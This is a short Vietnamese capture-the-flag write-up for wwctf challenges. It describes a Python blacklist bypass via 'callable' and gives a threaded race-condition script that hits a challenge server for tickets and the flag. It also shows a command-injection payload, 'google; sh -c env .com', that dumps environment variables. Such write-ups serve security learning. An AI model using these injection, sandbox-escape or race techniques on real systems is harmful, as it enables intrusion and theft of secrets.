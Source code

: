 Trước đây tôi đã gặp 1 thử thách tương tự và bypass nó bằng cách đặt mảng những kí tự bị cấm bằng mảng rỗng, Tuy nhiên thử thách này ```bad_cmds``` có kí tự ```_``` bị cấm nên cách này không có nghĩa 

Giải pháp thay thể là chúng ta đặt ```blacklist=callable``` nó sẽ ghi đè hàm blacklist và trở thành ```callable()``` của Python có thể thực thi tất cả các lệnh tùy ý 

## Galactic_Shuttle
>
Cùng một người dùng cần hai vé, nhưng điều này không thể thực hiện được do hệ thống. Tuy nhiên, có vẻ như ```Race Condition``` là có thể. Một luồng riêng biệt có thể đồng thời lấy được một vé và một cờ.

```python
import requests
import threading

URL = "https://30f98a40a253d4b3d35f1f0f437f222a.chall.wwctf.com"
USER = "minhtuan"

def acquire():
    r = requests.get(f"{URL}/acquire", params={"user": USER})
    print(r.text)

threads = []
for _ in range(20):  # Gửi nhiều để tăng khả năng race condition
    t = threading.Thread(target=acquire)
    t.start()
    threads.append(t)

for t in threads:
    t.join()

# Sau đó kiểm tra flag
r = requests.get(f"{URL}/flag", params={"user": USER})
print("[*] FLAG RESPONSE:", r.text)

```

# Web

## Domain_of_Doom
Chỉ cần truy cập https://eb08eacc5488ed3c9d1557ecf76826bd.chall.wwctf.com/flag .

## Domain_of_Doom_Revenge
>You're querying domains, but some lead to dangerous places<br>
The flag is hidden in an environment variable.

payload

```
google; sh -c env .com
```
Ta sẽ đọc file env  sử dụng ```sh -c``` để thực thi lệnh và bỏ qua .com
